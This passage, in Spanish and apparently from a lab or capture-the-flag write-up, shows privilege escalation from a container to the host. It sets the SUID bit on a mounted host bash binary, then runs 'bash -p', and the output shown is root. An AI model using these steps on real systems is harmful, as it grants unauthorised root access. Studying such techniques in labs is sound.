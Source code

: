 1. Escalar privilegios en la maquina real

    - en el contenedor

        ```bash
        cd /mnt/bin
        chmod 4755 bash
        exit
        ```
    
    - en la maquina real

        ```bash
        bash -p
        whoami

        #Output
        root
        ```

![aircrack-airgeddon](/assets/images/aircrack-airgeddon.png)
